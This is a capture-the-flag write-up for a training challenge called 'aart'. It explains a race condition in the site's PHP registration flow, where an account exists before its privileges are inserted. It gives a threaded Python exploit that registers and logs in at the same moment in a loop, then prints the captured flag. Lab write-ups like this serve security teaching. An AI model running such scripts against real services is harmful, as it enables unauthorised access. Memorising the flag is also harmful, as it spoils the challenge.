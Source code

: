 # aart ![c](https://img.shields.io/badge/solved-success)
### Analysis
This challenge consisted of a website that allowed the creation of user accounts, login to those accounts as well as submitting ASCII art and voting for it. Furthermore there was a link on top of the page that provided the whole source of the website (except connect.php which contained the MySQL connection information).

There are three files of interest to us, the login script, the register script and the database scheme, from which we can see that during registration, the account is first created, and only after the privileges are inserted in the database. 

Obviously the flag is shown only if our account has those privileges, so we can try to login before the privileges are inserted, exploiting the race condition.
### Exploit
```python
import requests
import string
import random
import sys
import threading
import time

EP = "http://aart.training.jinblack.it"

def rand_string(N=10):
	return ''.join(random.choices(string.ascii_uppercase + string.digits, k=N))

def register(u,p):
	url = "%s/register.php" % EP
	data = {"username":u, "password": p}
	r = requests.post(url, data = data)
	print(r)
	if "SUCCESS!" in r.text:
		return True
	return False

def login(u, p):
	url = "%s/login.php" % EP
	data = {"username":u, "password": p}
	r = requests.post(url, data = data)
	print(r)

	if "flag{" in r.text:
		print(r.text)
		sys.exit(0)



while True:
	u = rand_string()
	p = rand_string()

	r = threading.Thread(target=register, args=(u, p))
	r.start()

	l = threading.Thread(target=login, args=(u, p))
	l.start()

	time.sleep(0.1)



import IPython
IPython.embed()
```

**flag{i_guess_you_were_fast_enough!}**
